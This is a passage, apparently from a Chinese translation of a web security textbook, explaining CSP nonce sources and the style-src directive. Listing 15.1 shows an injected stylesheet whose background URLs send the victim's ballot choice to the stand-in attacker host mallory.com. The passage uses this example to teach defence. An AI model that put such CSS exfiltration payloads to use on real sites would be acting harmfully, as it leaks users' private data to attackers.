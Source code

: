 *   `window.setInterval(string, x)`

如何在 `none` 的无聊和`unsafe-inline``unsafe-eval`的风险之间取得平衡？用一个 *nonce* ( *号用一次* )。这里以粗体显示的随机数源包含唯一的随机数，而不是静态值，如 `self` 或 `none` 。根据定义，每个响应的数字都是不同的:

```py
Content-Security-Policy: script-src 'nonce-EKpb5h6TajmKa5pK'
```

如果浏览器收到此策略，它将执行内联脚本，但只执行那些具有匹配 `nonce` 属性的脚本。例如，该策略允许浏览器执行以下脚本，因为粗体显示的 `nonce` 属性是匹配的:

```py
<script nonce='EKpb5h6TajmKa5pK'>
   /* inline script */
</script>
```

随机数源如何减轻 XSS？假设爱丽丝给 bank.alice.com 增加了这一层防御。Mallory 随后发现了另一个 XSS 漏洞，并计划再次将恶意脚本注入 Bob 的浏览器。为了成功地实施这次攻击，Mallory 必须用 Bob 将从 Alice 接收到的相同 nonce 来准备脚本。马洛里无法提前知道随机数，因为爱丽丝的服务器还没有生成随机数。此外，马洛里猜测正确数字的可能性几乎为零；比起瞄准爱丽丝的银行，在拉斯维加斯赌博会给她更好的发财机会。

随机数源减轻了 XSS，同时支持内联脚本执行。它是两全其美的，像 `none` 一样提供安全性，像 `unsafe-inline` 一样方便特性开发。

style-src 指令

如 顾名思义， `style-src` 控制浏览器如何处理 CSS。像 JavaScript 一样，CSS 是 web 开发人员交付功能的标准工具；它也可能因 XSS 袭击而被武器化。

假设 2024 年美国总统大选正在进行。整个选举归结为两个候选人:鲍勃和伊夫。有史以来第一次，选民可以在查理的新网站 ballot.charlie.com 上在线投票。Charlie 的内容安全策略阻止了所有的 JavaScript 执行，但是没有解决 CSS 问题。

马洛里发现了另一个反映 XSS 的机会。她给爱丽丝发了一封恶意链接的邮件。Alice 单击该链接并收到清单 15.1 所示的 HTML 页面。该页面包含一个包含两个候选人的下拉列表，作者是 Charlie 它还包含一个注入的样式表，由 Mallory 编写。

Mallory 的样式表动态设置 Alice 检查的选项的背景。此事件触发对背景图像的网络请求。不幸的是，网络请求还以查询字符串参数的形式透露了 Alice 对 Mallory 的投票。马洛里现在知道爱丽丝投了谁的票。

清单 15.1 Mallory 在 Alice 的浏览器中注入了一个恶意的样式表

```py
<html>

    <style>                                                    ❶
        option[value=bob]:checked {                            ❷
            background: url(https://mallory.com/?vote=bob);    ❸
        }
        option[value=eve]:checked {                            ❹
            background: url(https://mallory.com/?vote=eve);    ❺
        }
    </style>

    <body>
        ...
        <select id="ballot">
            <option>Cast your vote!</option>
            <option value="bob">Bob</option>                   ❻
            <option value="eve">Eve</option>                   ❻
        </select>
        ...
    </body>

</html>
```
